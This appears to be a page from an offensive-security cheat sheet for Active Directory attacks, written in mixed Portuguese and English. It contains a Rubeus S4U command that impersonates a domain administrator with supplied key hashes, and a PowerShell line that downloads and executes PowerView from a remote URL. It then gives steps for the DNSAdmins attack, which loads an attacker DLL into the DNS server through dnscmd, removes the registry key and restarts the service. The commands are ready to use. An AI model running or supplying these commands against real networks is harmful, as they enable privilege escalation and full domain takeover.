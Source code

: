 ```
.\rubeus.exe s4u /user:ATTACKER2$ /aes256:E1B7610EFD532B94B231C753ADCD74C20B8812F27D8A65D913F4834FE1877E59 /aes128:D99EDC9BAFB9456F2DD3AF994CE99F25 /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/server02 /domain:tech.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /ptt
```





























## ATAQUE DNSADMINS
If you own a user who is a member of the 'DNS admin' it is possible to perform various attacks on the DNS server (usually Domain Controller) It is possible to get a reverse shell with this, but this puts the whole DNS traffic flat within the domain as this keeps the DNS service busy! For more information see [ https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise ]
##### DNSADMINS - LOAD REQUIREMENTS
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/PowerView.ps1")
```
##### DNSADMINS - FIND MEMBERS OF DNSADMIN 
```
Get-ADGroupMember -Identity "DNSADMINS" | select objectClass, SamAccountName | Format-Table
```
```
Get-NetgroupMember -identity 'DNSADMINS'
Get-NetgroupMember -identity 'DNSADMINS' | select MemberName
Get-NetgroupMember -identity 'DNSADMINS' | select groupname,MemberName,MemberObjectClass
Get-NetgroupMember -identity 'DNSADMINS' -domain 'tech.local'
```
##### DNSADMINS ATTACK (MUST HAVE RSAT DNS) (CRIAR UM COMPARTILHAMENTO E COLOCAR A DLL LÁ)
Share the directory the DLl is in for everyone so its accessible. logs all DNS queries on C:\Windows\System32\kiwidns.log
```
dnscmd tech-dnsserver01 /config /serverlevelplugindll \\10.10.10.10\dll\mimilib.dll
```
DELETAR CHAVE DO REGISTRO:
```
Get-ItemPropertyValue -Path "HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters" -Name ServerLevelPluginDll
Remove-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters" -Name ServerLevelPluginDll
```
RESTART THE DNS SERVER
```
Sc \\tech-dnsserver01 stop dns
Sc \\tech-dnsserver01 start dns
```
